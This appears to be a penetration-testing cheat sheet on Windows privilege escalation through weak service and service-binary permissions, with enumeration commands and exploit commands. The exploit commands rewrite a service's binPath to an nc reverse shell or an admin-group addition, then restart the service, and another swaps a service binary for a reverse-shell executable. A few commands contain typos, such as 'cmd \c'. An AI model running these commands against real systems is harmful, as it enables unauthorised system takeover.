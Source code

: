 # Weak Service Permission

## Theory
It is very often in Windows environments to discover services that run with SYSTEM privileges. If you have write permissions over the folder or binary used by the service, or permissions over the service you can use it to escalate you privileges.

## Practice


### Service Permissions

If we have enought permissions over a service, we can edit the `binPath` parameters and replace it with our own binary or command. 
{% tabs %}
{% tab title="Enum" %}
If you have `SERVICE_CHANGE_CONFIG` or `SERVICE_ALL_ACCESS` permissions, you can replace the binary.

We can use [AccessChk](https://learn.microsoft.com/fr-fr/sysinternals/downloads/accesschk) from sysinternals tools to enum permissions over services.
```powershell
#list all the services that a specific user can modify.
accesschk64.exe -uwcqv "pwned" * -accepteula
accesschk64.exe -uwcqv "Authenticated Users" * -accepteula
accesschk64.exe -uwcqv "BUILTIN\Users" * -accepteula
accesschk.exe -uwcqv %USERNAME% * -accepteula

#list permissions of evryone.
accesschk64.exe -uwcqv * -accepteula

#list permissions for "VulnSvc" service.
accesschk64.exe -uwcqv VulnSvc -accepteula
```

We also can use the `servicesinfo` module of winpeas
```powershell
winPEASx64.exe servicesinfo
```
{% endtab %}

{% tab title="Exploit" %}

We can edit the binpath parameter with following commands
```powershell
sc.exe config <Service_Name> binpath= "C:\nc.exe -nv 127.0.0.1 9988 -e C:\WINDOWS\System32\cmd.exe"
sc.exe config <Service_Name> binpath= "net localgroup administrators username /add"
sc.exe config <Service_Name> binpath= "cmd \c C:\Users\nc.exe 10.10.10.10 4444 -e cmd.exe"s
sc.exe config <Service_Name> binpath= "C:\Documents and Settings\PEPE\reverseShell.exe"
```

And then, restart the service
```powershell
#Using wmic
wmic service <Service_Name> call stopservice
wmic service <Service_Name> call startservice

#Using net
net stop <Service_Name> && net start <Service_Name>

#Using sc.exe
sc.exe stop <Service_Name>
sc.exe start <Service_Name>
```
{% endtab %}
{% endtabs %}

### File Permissions
If we have enought permissions over the binary of a service, we can replace it to our own binary. If you have write permissions over the folder you can do [DLL Hijacking]()

{% tabs %}
{% tab title="Enum" %}
We can get every binary that is executed by a service using wmic and check your permissions using icacls
```powershell
for /f "tokens=2 delims='='" %a in ('wmic service list full^|find /i "pathname"^|find /i /v "system32"') do @echo %a >> %temp%\perm.txt

for /f eol^=^"^ delims^=^" %a in (%temp%\perm.txt) do cmd.exe /c icacls "%a" 2>nul | findstr "(M) (F) :\"
```

Or we can use `sc` and `icacls`
```powershell
#Get list of services
sc query state= all | findstr "SERVICE_NAME:" >> C:\Temp\Servicenames.txt

#Get each permissions over BINARY_PATH_NAME 
FOR /F "tokens=2 delims= " %i in (C:\Temp\Servicenames.txt) DO @echo %i >> C:\Temp\services.txt
FOR /F %i in (C:\Temp\services.txt) DO @sc qc %i | findstr "BINARY_PATH_NAME" >> C:\Temp\path.txt
```

Or we can use the `servicesinfo` module of winpeas
```powershell
winPEASx64.exe servicesinfo
```

{% endtab %}

{% tab title="Exploit" %}
We just have to replace the binary. 
```powershell
copy /y c:\Temp\reverse.exe "c:\Program Files\File Permissions Service\filepermservice.exe"
```

{% endtab %}
{% endtabs %}


### Weak Registry Permisions

